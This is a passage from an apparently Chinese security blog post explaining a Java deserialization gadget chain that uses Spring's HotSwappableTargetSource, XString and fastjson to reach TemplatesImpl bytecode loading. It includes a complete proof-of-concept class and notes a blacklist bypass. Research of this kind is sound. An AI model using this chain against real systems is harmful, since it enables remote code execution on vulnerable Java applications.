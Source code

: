   
不过经过上面一通分析发现只是调用 tostring 方法单靠 XString 还是能做到得，那么只有最后的对象存在 hashcode 方法就行了。  
  
## HotSwappableTargetSource 妙用  
  
  
接下来分析 HotSwappableTargetSource 怎么解决的最后利用问题，poc  
  
```
package org.example;  import com.alibaba.fastjson.JSONObject;  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  import com.sun.org.apache.xpath.internal.objects.XString;  import org.springframework.aop.target.HotSwappableTargetSource;  import java.io.*;  import java.lang.reflect.Constructor;  import java.lang.reflect.Field;  import java.nio.file.Files;  import java.nio.file.Paths;  import java.util.Base64;  import java.util.HashMap;  public class xstringtest {      public static void main(String[] args) throws Exception {          TemplatesImpl tem =new TemplatesImpl();          byte[] code = Files.readAllBytes(Paths.get("D:/gaoren.class"));          setValue(tem, "_bytecodes", new byte[][]{code});          setValue(tem, "_tfactory", new TransformerFactoryImpl());          setValue(tem, "_name", "gaoren");          setValue(tem, "_class", null);          JSONObject jsonObject = new JSONObject();          jsonObject.put("g","m");          JSONObject jsonObject1 = new JSONObject();  //后面利用反射设置属性，防止提前调用        jsonObject1.put("g",tem);          HotSwappableTargetSource v1 = new HotSwappableTargetSource(jsonObject);          HotSwappableTargetSource v2 = new HotSwappableTargetSource(new XString("x"));  //        XString xs1= new XString(jsonObject.toJSONString());  //        XString xs= new XString("\n");          HashMap<Object,Object> hashMap = new HashMap<>();          hashMap.put(v1 ,v1);          hashMap.put(v2,v2);          setValue(v1,"target",jsonObject1);  //      用于Reference包裹绕过FastJSon高版本resolveClass黑名单检查,from Y4tacker  /*        HashMap<Object,Object> hhhhashMap = new HashMap<>();          hhhhashMap.put(tpl,hashMap);*/          serialize(hashMap);          unserialize("ser.bin");      }      public static void setValue(Object obj,String field,Object value) throws Exception{          Field f = obj.getClass().getDeclaredField(field);          f.setAccessible(true);          f.set(obj,value);      }      public static void serialize(Object obj) throws IOException {          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));          oos.writeObject(obj);          oos.close();      }      public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));          Object obj = ois.readObject();          return obj;      }  }
```  
  
同样到 hash 函数  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXr9ZqOGX73DXn0cqcPAWYz2ONhanE2aF9yib1niarUvsVERB92mWQ07cQ/640?wx_fmt=png&from=appmsg "")  
  
  
因为这里的 HotSwappableTargetSource  
 类存在 hashcode 方法，直接调用其 hashcode 方法，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXA4P2VkiaiaXDzDX2U7xOrNic2Ih43H3HXQU9b8SyJfrGmKzUWESZkVhdw/640?wx_fmt=png&from=appmsg "")  
  
  
所以两个键的 hash 值也就相等了，都是 HotSwappableTargetSource  
 类，接下来就会调用到 HotSwappableTargetSource.equals  
 方法，参数也是 HotSwappableTargetSource  
 对象  
  
  